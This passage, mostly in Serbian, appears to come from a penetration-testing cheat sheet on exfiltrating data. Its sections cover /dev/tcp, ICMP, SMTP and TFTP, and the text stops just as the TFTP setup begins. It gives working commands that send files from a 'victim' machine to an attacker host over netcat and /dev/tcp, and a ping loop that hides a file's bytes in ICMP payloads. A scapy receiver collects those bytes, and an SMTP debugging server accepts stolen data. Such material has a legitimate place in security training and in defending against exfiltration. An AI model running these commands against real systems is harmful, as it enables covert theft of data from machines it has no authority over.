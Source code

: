 ## /dev/tcp

### Preuzimanje fajla sa žrtvine mašine

```bash
nc -lvnp 80 > file #Inside attacker
cat /path/file > /dev/tcp/10.10.10.10/80 #Inside victim
```

### Postavljanje fajla žrtvi

```bash
nc -w5 -lvnp 80 < file_to_send.txt # Inside attacker
# Inside victim
exec 6< /dev/tcp/10.10.10.10/4444
cat <&6 > file.txt
```

Zahvaljujući **@BinaryShadow\_**

## **ICMP**

```bash
# To exfiltrate the content of a file via pings you can do:
xxd -p -c 4 /path/file/exfil | while read line; do ping -c 1 -p $line <IP attacker>; done
#This will 4bytes per ping packet (you could probably increase this until 16)
```

```python
from scapy.all import *
#This is ippsec receiver created in the HTB machine Mischief
def process_packet(pkt):
if pkt.haslayer(ICMP):
if pkt[ICMP].type == 0:
data = pkt[ICMP].load[-4:] #Read the 4bytes interesting
print(f"{data.decode('utf-8')}", flush=True, end="")

sniff(iface="tun0", prn=process_packet)
```

## **SMTP**

Ako možete slati podatke na SMTP server, možete kreirati SMTP da primite podatke pomoću python-a:

```bash
sudo python -m smtpd -n -c DebuggingServer :25
```

## TFTP

Podrazumevano u XP i 2003 (u drugima mora biti eksplicitno dodato tokom instalacije)

Na Kali, **pokreni TFTP server**:
